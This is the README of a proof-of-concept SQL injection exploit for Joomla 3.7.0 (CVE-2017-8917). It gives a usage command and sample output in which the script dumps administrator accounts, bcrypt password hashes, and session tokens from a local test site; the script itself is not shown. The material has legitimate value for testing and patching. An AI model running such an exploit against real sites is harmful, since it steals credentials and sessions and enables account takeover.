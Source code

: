 # Exploit for Joomla 3.7.0 (CVE-2017-8917)

Another proof of concept exploit for Joomla, whoop-de-doo, this time a SQL Injection in 3.7.0.

 * https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html

## Usage

Point the joomblah.py script at the vulnerable Joomla 3.7.0 install, it may take some time, but it will dump the users and session tables.

```
$ python joomblah.py http://127.0.0.1:8080
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: rlbre_users
  -  Found table: tgukl_users
  -  Extracting users from rlbre_users
 [$] Found user ['361', 'Super User', 'admin', 'admin@example.com', '$2y$10$G4ivaKw71R4uIvuHYliSke5pHoh1Q.xm.Sk29d8zpzx4xJBfPoyEK', '', '']
  -  Extracting sessions from rlbre_session
 [$] Found session ['361', '3rfv8kql26s6kvimpbchneom85', 'admin']
  -  Extracting users from tgukl_users
 [$] Found user ['883', 'Super User', 'admin', 'admin@example.com', '$2y$10$5Za2zpqTdRo5x19cvO5biOKeiyOi2iTQ3u0SSLtcs6uvIvJhvM9aG', '', '']
  -  Extracting sessions from tgukl_session
```

## Licence

Licenced under the [WTFPL][wtfpl]

[wtfpl]: http://www.wtfpl.net/
